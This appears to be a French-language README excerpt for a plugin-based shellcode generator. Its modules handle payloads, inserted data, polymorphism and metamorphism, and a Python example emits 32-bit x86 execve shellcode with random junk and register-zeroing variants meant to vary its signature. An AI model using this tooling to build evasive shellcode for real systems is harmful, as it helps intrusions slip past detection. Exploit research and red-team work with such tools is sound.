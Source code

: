 
### Fonctionnement

La fondation du fonctionnement de cet outil est le découpage de ce qui constitue un shellcode en briques qu'il est possible manipuler et de combiner de manière indépendante.

Nous retrouvons ainsi un système de plugin différent pour :

+ Le payload
+ La données à insérer dynamiquement
+ Le polymorphisme
+ Le metamorphisme

#### Payload

La création d'un plugin de payload se résume à renseigner un template pour chaque architecture puis enregistrer les patchers et les modules de métamorphismes utilisés.

```python
from modules.payload.base import BasePayload
from modules.patcher.ascii_data import AsciiData
from modules.patcher.ascii_len import AsciiLen

from modules.meta.metaengine import MetaEngine
from modules.meta.junk import Junk
from modules.meta.zero import Zero


class ExecvePayload(BasePayload):
    def __init__(self, state):
        super().__init__(state)
        self.name = "Execve"

        # Add the patcher's options to the payload
        # Here the AsciiData adds the "data" option
        self.options.add_patcher_options(AsciiData)
        self.add_patcher(AsciiData)

    def payload_32(self):
    	# Register the metmorphic plugins used
        meta = MetaEngine()
        meta.add(Junk)
        meta.add(Zero)

        return fr"""
global _start:

_start:
	; Pick a random alterations and patch it on the fly
    {meta.apply('zero', 32, reg1='eax')}
    push eax
    ; Insert the placeholder that will be replaced by the value of the "data" option
    {AsciiData.token}
    ; Add some random junk
    {meta.apply('junk', 32)}
    mov ebx,esp
    mov ecx,eax
    mov edx,eax
    mov al, 0x0b
    mov ebx, esp
    int 0x80
    {meta.apply('zero', 32, reg1='eax')}
    inc eax
    int 0x80
"""

```